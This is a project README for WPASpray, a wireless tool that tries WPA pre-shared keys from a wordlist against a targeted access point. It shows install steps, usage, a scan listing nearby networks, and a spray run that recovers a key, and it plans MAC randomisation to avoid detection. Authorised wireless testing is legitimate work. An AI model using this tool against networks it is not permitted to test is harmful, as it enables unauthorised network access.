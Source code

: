 # WPASpray

A WiFi attack vector for spraying WPA Pre-Shared Keys against an access point.

## Installation

1. Navigate to the releases page and donwload the latest .deb
2. Run ```apt install ./wpaspray-1.0-x86_64.deb```

### Note

When installing in Kali if you see the error ```N: Download is performed unsandboxed as root as file ...``` it is safe to ignore.

This is just apt saying that it doesn't have an ```_apt``` user to download and install the .deb file with that is non-root, non-login, and sandboxed.
If this error concerns you, you can follow these alternate installation instructions:

1. Run ```dpkg -i wpaspray-1.0-x86_64.deb```
2. Run ```apt install -f```

And you should encounter no errors.

## Examples

#### Usage
```
~# wpaspray -h
usage: wpaspray [-h] [-s] [-i INTERFACE] [-w WORDLIST] [-b BSSID] [-t TIMEOUT]             

WPASpray, an attack vector for spraying WPA Pre-Shared Keys against an access point.                                      

optional arguments:                         
  -h, --help            show this help message and exit                                 
  -s, --scan            Scan for available access points.                               
  -i INTERFACE, --interface INTERFACE       
                        Interface to use.   
  -w WORDLIST, --wordlist WORDLIST          
                        Wordlist to use. 1 password/phrase per line. Passwords          
                        less than 8 characters or lines starting with a '#'             
                        will be ignored.    
  -b BSSID, --bssid BSSID                   
                        BSSID of the target access point                                
  -t TIMEOUT, --timeout TIMEOUT             
                        Timeout to wait for a handshake with each password              
                        attempt. Default is no timeout.
```

#### Scan for available target access points:
```
~# wpaspray -i wlan1 -s
[ INIT ] Initializing...
[ INIT ] Complete.
[ SCAN ] Scanning for access points...
[ SCAN ] Complete.
[ SCAN ] Printing results...
      BSSID                     SSID               FREQUENCY  SIGNAL    TYPE   KEYMGMT 
---------------------------------------------------------------------------------------
E4:8D:8C:5C:07:CB  TestingWPA                      2.4 Ghz    -23 dBm  WPA2    wpa-psk   
DC:EF:09:A6:06:22  NETGEAR73                       2.4 Ghz    -61 dBm  WPA2    wpa-psk   
F0:F2:49:8B:90:48  CGNM-9048                       2.4 Ghz    -63 dBm  WPA2    wpa-psk   
64:77:7D:9F:B6:D8  CGNM-B6D8                       2.4 Ghz    -69 dBm  WPA2    wpa-psk   
00:FC:8D:93:0A:18  CGNM-0A18                       2.4 Ghz    -71 dBm  WPA2    wpa-psk   
C0:C1:C0:E6:2B:BD  Bright                          2.4 Ghz    -75 dBm  WPA2    wpa-psk   
84:94:8C:BF:FA:38  CGN-FA30                        2.4 Ghz    -77 dBm  WPA2    wpa-psk
```

#### Target a specific AP
```
~# wpaspray -i wlan0 -b e4:8d:8c:5c:07:cb -w wordlist.txt
[ INIT ] Initializing...
[ INIT ] Complete.    
[ SCAN ] Scanning for access points...      
[ SCAN ] Complete.    
[ SPRAY ] Starting password spray...        
[ SPRAY ] Target: BSSID 'E4:8D:8C:5C:07:CB'  SSID: 'TestingWPA'  Signal: -17 dBm        
[ SPRAY ] Trying psk: 'Password01!'         
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'Princess'            
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] disconnected
[ SPRAY ] scanning    
[ SPRAY ] Trying psk: 'TestPass12345!'      
[ SPRAY ] authenticating                    
[ SPRAY ] associating 
[ SPRAY ] 4way_handshake                    
[ SPRAY ] completed   
[ SPRAY ] ############# SUCCESS! #############                                          
[ SPRAY ] # BSSID: 'E4:8D:8C:5C:07:CB'       #                                          
[ SPRAY ] # SSID: 'TestingWPA'               #                                          
[ SPRAY ] # Pre-Shared Key: 'TestPass12345!' #                                          
[ SPRAY ] ####################################
```

## Building From Source

If you choose to build the package yourself you can follow the guide below.

1. Clone the repository. `git clone github.com/nodocify/wpaspray.git`
2. Make sure you have EPM installed. `sudo apt install epm`
3. Navigate into the wpaspray directory and run `epm -f deb -v wpaspray`
4. EPM will create a new directory named after your kernel. Deb is located inside.

## To Do
* Have option to randomize MAC every X number of PSK attempts.
* Option to create a delay between attempts. Helpful for lower end access points.
